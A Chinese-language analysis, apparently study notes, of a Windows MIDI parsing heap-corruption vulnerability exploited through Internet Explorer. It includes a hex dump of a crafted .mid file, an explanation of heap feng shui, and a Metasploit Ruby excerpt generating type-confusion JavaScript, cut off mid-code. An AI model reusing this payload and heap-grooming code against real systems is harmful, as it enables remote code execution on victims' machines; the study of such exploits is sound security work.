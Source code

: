 
在当前eip处eax=0x419，而eip最近执行过的与eax相关的指令为76b2d21e处的add esi,eax，书中分析的是此处的esi来源于winmmAlloc(0x400)分配到的内存地址，而add esi,eax中的eax=0x419超过了分配的0x400导致访问到超出0x19大小处的内容 ，在eip下面的76b2d23e和76b2d240处可以看到，[esi]的值会加1，也即在超出0x19大小处的内存中的内容会加1，这就是这个漏洞的危害：导致内存某处的值+1，只要能够控制这个0x19处的内存的内容，就有机会利用这个漏洞。

上面之所以会有76b2d240处的导致[esi]加1的出现，是要在mid文件中的某个音轨事件处写上"打开音符"对应的值(书中是0x0073b29f)，如下||之间的内容：<br>

```
00000000: 4d54 6864 0000 0006 0000 0001 0060 4d54  MThd.........`MT
    00000010: 726b 0000 0035 00ff 030d 4472 756d 7320  rk...5....Drums 
    00000020: 2020 2842 4229 0000 c928 00b9 0764 00b9    (BB)...(...d..
    00000030: 0a40 00b9 7b00 00b9 5b28 00b9 5d00 8550  .@..`{`...[(..]..P
    00000040: 9923 7f00|9fb2 7300|ff2f 000a            .#....s../..
```

满足mid文件中对应位置处的值为"打开音符"后，会导致在当前eip环境下的[esi]加1，也即76b2d21e执行后的[esi]加1，也即winAlloc(0x400)分配到的内存地址+0x19处的内容加1，而利用方式中正好是利用相应内存中的值加1导致任意代码执行。书中通过ida的f5分析函数调用与参数传递分析得到上面的esi的源是winmmAlloc(0x400)，也即在打开mid文件后会有一个这样的内存分配动作，于是构造出如下结构的内存空间使得winmmAlloc(0x400)分到的内存地址相对可控：<br style="text-align: left">    |xxxxxxxx|oooooooo|xxxxxxxxx|ooooooooo|xxxxxxxxx|ooooooooo|…<br style="text-align: left">    也即在mid文件被ie解析之前，先用js构造上面这样的内存格式，其中xxx表示有数据，ooo表示空闲内存，每个||之间的内存大小正好为0x400，这样在上面内存结构的基础上再由ie解析mid文件而产生winmmAlloc(0x400)的动作就会分配到上面的ooo的某个位置上，然后由于mid文件是特殊的构造好的会使winmmAlloc(0x400)分到的内存地址+0x19处的内存的内容加1的文件，于是ie解析mid文件后，将导致winmmAlloc(0x400)分到的某个ooo位置的右边一个xxx的位置上的偏移0x19中的值加1，当上面构造的特殊内存格式时构造好该位置内容的值+1会使得代码执行时，就可以利用这个漏洞了，而书中(msf)的利用方式是用下面的js来达到目的的：

```
[msf中的构造特殊内存结构的由ruby写的js]
    def build_element(element_name, my_target, type="corruption")
      dst = Rex::Text.to_unescape([my_target['DispatchDst']].pack("V"))
      element = ''
  
      if my_target.name =~ /IE 8/
        max   = 63   # Number of attributes for IE 8
        index = 1    # Where we want to confuse the type
      else
        max   = 55   # Number of attributes for before IE 8
        index = 0    # Where we want to confuse the type
      end
  
      element &lt;&lt; "var #`{`element_name`}` = document.createElement("select")" + "n"
  
      # Build attributes
      0.upto(max) do |i|
        case type
          when "corruption"
            obj = (i==index) ? "unescape("#`{`dst`}`")" : ""
          else #leak
            obj = ""
        end
        element &lt;&lt; "#`{`element_name`}`.w#`{`i.to_s`}` = #`{`obj`}`" + "n"
      end
  
      return element
    end
    # Feng Shui and triggering Steps:
    # 1. Run the garbage collector before allocations
    # 2. Defragment the heap and alloc CImplAry objects in one step (objects size are IE version dependent)
    # 3. Make holes
    # 4. Let windows media play the crafted midi file and corrupt the heap
    # 5. Force the using of the confused tagVARIANT.
    def build_trigger(my_target, type="corruption")
      js_trigger = build_trigger_fn(my_target, type)
      select_element = build_element('selob', my_target, type)
  
      trigger = &lt;&lt;-JS
        var heap = new heapLib.ie();
```